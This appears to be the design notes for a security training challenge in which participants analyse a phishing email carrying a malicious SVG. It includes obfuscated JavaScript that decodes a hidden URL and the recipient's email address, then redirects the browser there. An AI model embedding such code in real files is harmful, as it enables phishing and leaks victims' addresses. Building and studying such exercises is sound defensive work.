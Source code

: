 # Stealthy Vector Graphucs

A user at E-Corp reported an email with a suspicious attachment.

Could you please analyse the email `report.eml` and get back to us with your findings?

## Design

Checklist:
- [x] Email generator 
- [~] Malicious SVG
    - [X] Obfuscation
    - [~] Redirect to suspicious website
- [X] Quiz

#### Malicious SVG

Base64-encode:

```javascript
email = 'd6f636e20727f636d256042756b6271607f6';
url = 'K0TY/8Cdz9GasF2Yvx2LvoDc0RHa';

...

function fromReversedHex(str) {
    const fixed_hex = str.split('').reverse().join('');
    const bytes = new Uint8Array(fixed_hex.length / 2);
    for (let i = 0; i < fixed_hex.length; i += 2)
        bytes[i/2] = parseInt(fixed_hex.substr(i, 2), 16);
    return new TextDecoder().decode(bytes);
}

try {
    (async function () {
        window.location.href = atob(url) + fromReversedHex(email);
	})();
} catch (e) {
  console.error("e:", e);
}
```